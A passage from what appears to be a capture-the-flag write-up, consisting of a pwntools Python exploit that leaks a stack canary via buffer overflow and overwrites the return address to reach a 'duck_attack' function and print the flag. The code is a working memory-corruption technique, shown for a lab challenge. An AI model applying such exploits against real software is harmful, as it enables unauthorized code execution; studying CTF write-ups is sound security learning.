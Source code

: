The full exploit: 
```
def init():
    global io

    io = start()


def solve():
    offset = 39
    canary_offset = 88 + 1 # +1 for null pointer

    io.sendafter("> ", b'A'*canary_offset+b"Quack Quack ")

    data_recv = io.recv()
    canary_bytes = data_recv.split(b',')[0].strip(b'Quack Quack')[:7]
   
    canary = u64(b"\x00"+canary_bytes)

    print(f"Canary====> {canary}")

    canary_offset = canary_offset - 1 
    padding = "A" * canary_offset
    duck_attack = 0x000000000040137f
    padding_before_ret = "B" * 8

    payload = flat(
        [
            padding,
            canary,
            padding_before_ret,
            duck_attack
        ]
    )

    io.send(payload)
    
    flag = io.recv()

    print(f"Flag: {flag}")
    io.close()

def main():
    
    init()
    solve()
    

if __name__ == '__main__':
    main()
```

We ran the exploit and viola we get the flag.